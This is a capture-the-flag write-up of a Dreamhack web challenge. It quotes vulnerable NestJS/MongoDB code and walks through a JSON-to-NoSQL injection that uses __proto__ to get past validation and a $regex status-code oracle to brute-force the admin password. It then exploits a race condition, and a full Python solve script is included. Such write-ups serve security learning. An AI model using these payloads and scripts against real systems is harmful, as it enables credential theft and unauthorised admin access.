

## Santa's workshop Buffed  



This challenge involves an Express server built with TypeScript.  

User accounts are handled with MongoDB, and an admin account with a 32-character hex password is added when the container is first booted up.  

```ts
var conn = new Mongo();

var db = conn.getDB('nest');

db.users.insertMany([
  { username: 'admin', password: crypto.randomBytes(16).toString('hex') },
]);
```

In `/src/server/api/admin/admin.controller.ts`, we can see that there are privileged endpoints that can only be accessed by admin-level users.  

```ts
@Controller('admin')
export class AdminController {
  constructor(private readonly adminService: AdminService) {}

  // 받은 표식 목록
  @Get()
  async getAllFlag(): Promise<FlagDocument[]> {
    return await this.adminService.getAllFlag();
  }

  @Post('list')
  async getFlagList(@Body() listDto: ListDto): Promise<FlagDocument[]> {
    return await this.adminService.getFlagList(listDto.username);
  }

  // 착한아이에게 표식 선물하기
  @Get('flag')
  async addFlag(@Req() request: Request): Promise<FlagDocument> {
    return await this.adminService.addFlag(request.user);
  }

  // 나쁜아이의 표식 박탈하기
  @Delete('flag')
  async removeFlag(@Req() request: Request): Promise<boolean> {
    return await this.adminService.removeFlag(request.user);
  }

  @Get('check')
  async getRealFlag(@Req() request: Request): Promise<string> {
    return await this.adminService.getFlag(request.user);
  }
}
```

There is a `/user/login` endpoint that allows us to login, and returns a JWT token if the login succeeds.  

```ts
@Controller('user')
export class UserController {
  constructor(private readonly userService: UserService) {}

  @Post('login')
  async login(@Body() loginDto: LoginDto): Promise<any> {
    console.log(loginDto.username, loginDto.password);
    const user = await this.userService.getUser(loginDto.username, loginDto.password);
    return await this.userService.getAccessToken(user);
  }
}
```

Looking at the `getUser()` function, we can immediately notice a huge sink.  

The `validation` object used for queries is obtained from a `JSON.parse()` call, where the `username` and `password` fields are directly inserted into the JSON string without proper sanitisation, giving us a JSON injection vuln.  

With our JSON injection gadget, we can inject arbitrary JSON into the query object, which can be chained into NoSQL injection.  

```ts
@Injectable()
export class UserService {
  constructor(
    @InjectModel(User.name)
    private userModel: Model<UserDocument>,

    private readonly jwtService: JwtService,
    private readonly validationService: ValidationService,
  ) {}

  async getUser(username: string, password: string): Promise<UserDocument> {
    const validation = await this.validationService.validateData(LoginDto, JSON.parse(`{"username":"${username}", "password":"${password}"}`));
    console.log(validation);
    if (validation.hasOwnProperty("$where")) throw new HttpException('Do not try Injection.', 401);
    if (!validation) throw new HttpException('username or password is Not String.', 401);

    const user = await this.userModel.findOne({ username: validation.username, password: validation.password }).lean();
    if (!user) throw new HttpException('User Not Found.', 404);
    if (user.password != validation.password) throw new HttpException('User Not Found.', 403); // code status로 구분?

    return user;
  }

  async getAccessToken(user: UserDocument): Promise<any> {
    delete user['password'];

    const accessToken = this.jwtService.sign(user, { expiresIn: '1y' });

    return { token: accessToken };
  }

}
```

However, for the login to pass, our supplied password input must match the actual password exactly.  

Thankfully, the `403` status code is returned if the query returns any records and `404` otherwise, giving us an oracle to bruteforce the password.  

```ts
const user = await this.userModel.findOne({ username: validation.username, password: validation.password }).lean();
    if (!user) throw new HttpException('User Not Found.', 404);
    if (user.password != validation.password) throw new HttpException('User Not Found.', 403);
```

Another thing to note is that `LoginDTO` enforces that the `password` field of the `validation` object must be a string.  

```ts
import { IsString } from "class-validator";

export class LoginDto {

  @IsString()
  username: string;

  @IsString()
  password: string;

}
```

To bypass the `LoginDTO` type enforcement, we can inject a `__proto__` key into the JSON string, causing `validation` to resolve to `Object` instead of `LoginDTO`.  

We can then use the `$regex` operator in another `password` field to match each character in the admin password, completing the oracle.  

```python
payload = '''"password": { "$regex": "^guess" }'''

username = 'admin", "__proto__": { "a": "a'
password = 'a"}, %s, "username": "admin' % payload

# {"username":"admin", "__proto__": { "a": "a","password":"a"}, "password": { "$regex": "^guess" }, "username": "admin"}
```

After that, we can just bruteforce all `32` characters of the admin password, then login to retrieve a valid JWT token.  

```python
# bruteforce admin password
admin_pw = ''

for i in range(32):
    for char in string.hexdigits[:16].lower():
        payload = '''"password": { "$regex": "^%s" }''' % (admin_pw + char)

        username = 'admin", "__proto__": { "a": "a'
        password = 'a"}, %s, "username": "admin' % payload

        print("Trying:", char, '|', admin_pw)

        res = requests.post(f'{url}/user/login', data={
            'username': username,
            'password': password
        })

        if res.status_code == 403:
            admin_pw += char
            break

# login
res = s.post(f'{url}/user/login', data={
    'username': 'admin',
    'password': admin_pw
})

token = res.json()['token']
```

Now that we have admin login, we can access the privileged endpoints.  

The `getFlag()` call in `/admin/check` returns the flag if we have more than 3 flags in our account, but `addFlag()` only allows 1 flag to be added to each account.  

If we analyse `addFlag()`, we will realise that the `.findOne()` and `.save()` calls aren't atomic, giving us a race condition, where multiple concurrent insertions can be made before the database is saved.  

```ts
@Injectable()
export class AdminService {
  ...

  async addFlag(user: UserDocument): Promise<FlagDocument> {
    const existingFlag = await this.flagModel.findOne({ user: new Types.ObjectId(user._id) });
    if (existingFlag) throw new HttpException('This Account already have flag.', 403);

    const flag = new this.flagModel({
      name: "Taegeukgi",
      user: new Types.ObjectId(user._id),
    });

    await flag.save();
    return flag;
  }

  ...

  async getFlag(user: UserDocument): Promise<string> {
    const existingFlag = await this.flagModel.find({ user: new Types.ObjectId(user._id) });
    if (existingFlag.length > 3) return process.env.FLAG;
    else throw new HttpException('You don\'t have enough flags.', 404);
  }
}
```

With this in mind, we just have to exploit this TOCTOU vector and request `/admin/check` once we have added more than 3 flags to our admin account to get the flag.  

Below is my full solve script for this challenge.  

```python
import requests
import string
from requests.adapters import HTTPAdapter
from concurrent.futures import ThreadPoolExecutor
from threading import Barrier

url = 'http://host3.dreamhack.games:9535/'
s = requests.Session()

# bruteforce admin password
admin_pw = ''

for i in range(32):
    for char in string.hexdigits[:16].lower():
        payload = '''"password": { "$regex": "^%s" }''' % (admin_pw + char)

        username = 'admin", "__proto__": { "a": "a'
        password = 'a"}, %s, "username": "admin' % payload

        print("Trying:", char, '|', admin_pw)

        res = s.post(f'{url}/user/login', data={
            'username': username,
            'password': password
        })

        if res.status_code == 403:
            admin_pw += char
            break

print("> Admin password:", admin_pw) 

# login
res = s.post(f'{url}/user/login', data={
    'username': 'admin',
    'password': admin_pw
})

assert 'token' in res.text
print("> Logged in")

token = res.json()['token']
print("> JWT token:", token)

# race condition
headers = {
    'Authorization': f"Bearer {token}"
}

THREADS = 100

session = requests.Session()
adapter = HTTPAdapter(pool_connections=THREADS, pool_maxsize=THREADS, max_retries=0)
session.mount('http://', adapter)
session.headers.update(headers)

def race():
    barrier = Barrier(THREADS)

    def add_flag(_):
        barrier.wait()
        return session.get(f"{url}/admin/flag")

    with ThreadPoolExecutor(max_workers=THREADS) as pool:
        list(pool.map(lambda _: session.get(f"{url}/admin"), range(THREADS)))

    with ThreadPoolExecutor(max_workers=THREADS) as pool:
        results = list(pool.map(add_flag, range(THREADS)))

    success = sum(r.status_code == 200 for r in results)
    print(f"> Created {success} flags")
    
    return success

for i in range(20):
    requests.delete(f'{url}/admin/flag', headers=headers)

    print(f"> Race attempt {i + 1}")

    if race() > 3:
        res = requests.get(f'{url}/admin/check', headers=headers)
        print("Flag:", res.text)
        break
```

Flag: `DH{Just_changed_workshop_door_lock}`